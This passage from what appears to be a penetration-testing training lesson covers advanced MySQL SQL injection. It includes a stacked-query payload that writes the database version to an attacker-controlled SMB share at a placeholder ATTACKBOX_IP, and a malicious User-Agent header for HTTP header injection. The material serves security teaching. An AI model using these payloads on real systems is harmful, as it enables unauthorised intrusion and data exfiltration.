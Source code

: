 - **When secure_file_priv is Set**: MySQL will restrict file operations such as **INTO OUTFILE** to the specified directory. This means attackers can only write files to this directory, limiting their ability to exfiltrate data to arbitrary locations.
- **When secure_file_priv is Empty**: If the `secure_file_priv` variable is empty, MySQL does not impose any directory restrictions, allowing files to be written to any directory accessible by the MySQL server process. This configuration poses a higher risk as it provides more flexibility for attackers.

Attackers typically do not have direct access to check the value of the secure_file_priv variable. As a result, they must rely on hit-and-trial methods to determine if and where they can write files, testing various paths to see if file operations succeed.  

**Preparing the Payload**

To exploit this vulnerability, the attacker crafts a payload to inject into the `visitor_name` parameter. The payload will be designed to execute an additional SQL query that writes the database version information to an external SMB share.  

```php
1'; SELECT @@version INTO OUTFILE '\\\\ATTACKBOX_IP\\logs\\out.txt'; --
```

Let's dissect the above payload:

- `1'`: Closes the original string within the SQL query.
- `;`: Ends the first SQL statement.
- `SELECT @@version INTO OUTFILE '\\\\ATTACKBOX_IP\\logs\\out.txt';`: Executes a new SQL statement that retrieves the database version and writes it to an SMB share at \\ATTACKBOX_IP\logs\out.txt.
- `--`: Comments the rest of the original SQL query to prevent syntax errors.

To utilize the payload, the attacker would visit the URL that creates a file in an external SMB share. 

To access the file, use the `ls /tmp` to see the file received in the `/tmp` directory as shown below:   


```shell-session
thm@machine$ls /tmp
out.txt
```

# Other techniques
---

Advanced SQL injection involves a range of sophisticated methods that go beyond basic attacks. Here are a few important advanced techniques that pentesters should be aware of:

## HTTP Header Injection


![user-agent injection](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1716922785793)


HTTP headers can carry user input, which might be used in SQL queries on the server side. 
If these inputs are not sanitised, it can lead to SQL injection. The technique involves manipulating HTTP headers (like **User-Agent**, **Referer**, or **X-Forwarded-For**) to inject SQL commands. The server might log these headers or use them in SQL queries. For example, a malicious User-Agent header would look like `User-Agent: ' OR 1=1; --`. If the server includes the User-Agent header in an SQL query without sanitising it, it can result in SQL injection.
